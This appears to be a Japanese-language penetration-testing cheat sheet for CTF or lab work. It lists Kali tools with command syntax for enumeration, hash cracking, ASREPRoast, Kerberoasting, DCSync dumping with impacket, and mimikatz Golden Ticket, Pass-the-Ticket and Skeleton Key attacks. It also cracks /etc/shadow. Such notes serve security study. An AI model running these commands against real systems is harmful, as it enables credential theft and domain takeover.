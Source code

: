 ## Tools
- CyberChef  
  「Magic」可読可能な文字列に変換してくれる
- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (kali〇, Perl)  
  「`enum4linux` IPアドレス」
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) (kali〇, Ruby)  
  「`evil-winrm` -i IPアドレス -u ユーザ名 -H NTハッシュ」でWinRM経由でログインできる。
- ftp (kali〇, ELF)  
  「ftp IPアドレス -a」Anonymousログオン
- [GoBuster](https://github.com/OJ/gobuster) (kali〇, Go)  
  「`gobuster` -u URL -w wordlist dir」URL配下のコンテンツをWordlistを用いて探索
- gpg (kali〇, ELF)    
  「`gpg` --import "GPG鍵(拡張子.key)"」→「`gpg` -d "メッセージファイル(拡張子.gpg)"」でGPGファイルを復号
- [hashcat](https://github.com/hashcat/hashcat) (kali〇, C)  
  「`hashcat` -a 0 -m 値 Hashファイル Wordlist」  
  「-a 0 」は辞書攻撃、「-m 値」はハッシュ形式（-m 13100 は「$krb5tgs」、-m 18200 は「$krb5asrep」）
- [hashID](https://github.com/psypanda/hashID) (kali〇, python)  
  「`hashid` --john "Hashファイル名"」（--johnで、JohnTheRipperでのフォーマットも確認できる）
- [impacket](https://github.com/fortra/impacket) (Kali〇, python)  
  `impacket-〇〇`以外に、`python3 /usr/share/doc/python3-impacket/examples/〇〇.py`でも実行できる
  - GetNPUsers  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP ドメイン名/ユーザ名 -outputfile 出力ファイル名」  
      で`ASREPRoast`（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
      取得したTGTを「john --wordlist=Wordlist名 TGT名」または「hashcat -a 0 -m 18200 wordlist名 TGT名 」でクラックできる  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP -userfile ユーザリスト ドメイン名/ -outputfile 出力ファイル名」  
      では「-userfile」内の各ユーザに対してASREPRoastを実行
  - GetUserSPNs  
    「`impacket-GetUserSPNs` -dc-ip ドメコンIP ドメイン名/ユーザ名:パスワード -outputfile 出力ファイル名」  
    でKerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行
  - secretsdump  
    「`impacket-secretsdump` -just-dc ドメイン名/ユーザ名:パスワード@IPアドレス -outputfile 出力ファイル名」  
    でDCSync権限を持つドメインユーザを使用して、各ドメインユーザのNTハッシュやKerberosキーをダンプできる。
- [John the Ripper](https://github.com/openwall/john) (kali〇, C)  
  - 「`john` --wordlist=/usr/share/wordlists/rockyou.txt "Hashファイル" --format=Hash方式」  
    「`john` "Hashファイル名" --show」クラック済み結果を表示（もしくは`/home/kali/.john/.john.pot`に解析結果がある）
  - 「`john` --list=formats」全フォーマットを表示  
    「--format=Raw-MD5」MD5ハッシュ, 「--format=nt」NTハッシュ
  - johnで解析するためのパスワード抽出
    - 「`zip2john` "zipファイル" > "出力ファイル"」johnで解析できるようにZIPパスワードを出力  
    - 「`rar2john` "rarファイル" > "出力ファイル"」johnで解析できるようにRARパスワードを出力  
    - 「`ssh2john` "SSH秘密鍵ファイル" > "出力ファイル"」johnで解析できるようにSSH秘密鍵を出力
    - 上記３つを実行後、「`john` --wordlist=/usr/share/wordlists/rockyou.txt "出力ファイル"」でクラック可能
  - 「john --single "Hashファイル" --format=Hash方式」SingleCrackモード（あんま使わん）  
    Hashファイルは`文字列:ハッシュ`形式。文字列を変換しながらHashクラックを行う。
  - 「sudo `unshadow` /etc/passwd /etc/shadow」  
    Johnで /etc/shadow をクラックするためのフォーマット作成
- [Kerbrute](https://github.com/ropnop/kerbrute) (kali×, Go)
  - install  
    GitHub上のReleaseからLinuxバイナリをインストール
  - 「`./kerbrute` userenum -d ドメイン名 --dc ドメコンIP Wordlists名 -o 出力ファイル名」Domainユーザの列挙
- [mimikatz](https://github.com/gentilkiwi/mimikatz) (kali〇, C)  
  「privilege::debug」→「[output '20' OK]」でAdministrator権限を確認
  - Golden/Silver Ticket Attacks  
    「lsadump::lsa /inject /name:krbtgt」  
    でkrbtgtアカウントのNTハッシュやSIDをダンプ（SilverTicketの場合は/nameで指定のユーザを指定）  
    「Kerberos::golden /user:Administrator /domain:ドメイン名 /sid:krbtgtのSID /krbtgt:krbtgtのNTハッシュ /id:500」  
    でGoldenTicketを作成（SilverTicketは別の方法）  
    「misc::cmd」で先程作成したTicketに昇格する
  - Pass the Ticket  
    「sekurlsa::tickets /export」.kiribiチケットが現在地にエクスポート  
    「kerberos::ptt .kiribiチケット名」→「klist」でキャッシュされたチケットを表示で攻撃の成功を確認
  - Skeleton Key  
    「misc::skeleton」ドメコンのメモリ上にマスタパスワードを挿入し、AD認証をバイパスする。
- [Rubeus](https://github.com/GhostPack/Rubeus) (kali×, C#)  
  攻撃対象のWindowsマシンで実行する、Post-Exploitationのイメージ  
  - 「`Rubeus.exe` harvest /interval:秒数」指定した秒数間、TGTを収集する  
  - 「`Rubeus.exe` kerberoast /nowrap /outfile:出力ファイル」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行（nowrapは改行なしで結果出力）  
    TGSは「`hashcat` -a 0 -m 13100 TGSファイル Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - 「`Rubeus.exe` asreproast /format:hashcat /outfile:出力ファイル」  
    ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
    ASREPは「`hashcat` -a 0 -m 18200 ASREPファイル Passwordリスト」でクラックできる（Johnでもクラックできる）
- scp (kali〇, ELF)  
  「scp SSHユーザ名@IPアドレス:/リモートパス ローカルパス」リモート先からダウンロード
- smbclient (kali〇, ELF)  
  「`smbcleint` -L IPアドレス or FQDN -U ユーザ名%パスワード」共有フォルダの列挙  
  「`smbclient` //IPアドレス/共有名 -U ユーザ名%パスワード」共有フォルダにアクセス
- [SMBMap](https://github.com/ShawnDEvans/smbmap) (kali〇, python)  
  「`smbmap` -H IPアドレス -u ユーザ名 -p パスワード」共有フォルダの列挙（smbclientと比べフォルダ権限まで確認できる）
- SSH  
  SSH秘密鍵の権限は600か700でないとSSH鍵認証できない
  - sshkeygen
## Linux
### Command
- 「`sed` -i '1s/^/文字列' ファイル名」 ファイルの１行目（`1s`）先頭に文字列を追加（改行なし）
### Preference
- 「`sudo sed -i '$a10.10.253.185 spookysec.local' /etc/hosts`」を実行しHOSTSファイルを編集
- `$format$rounds$salt$hash` /etc/shadowのフォーマット、`$format`でハッシュ種別が分かる
## BookMark
- [CrackStation](https://crackstation.net/)
- [hashes.com](https://hashes.com/en/decrypt/hash)
- [hash_identifier](https://hashes.com/en/tools/hash_identifier)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)
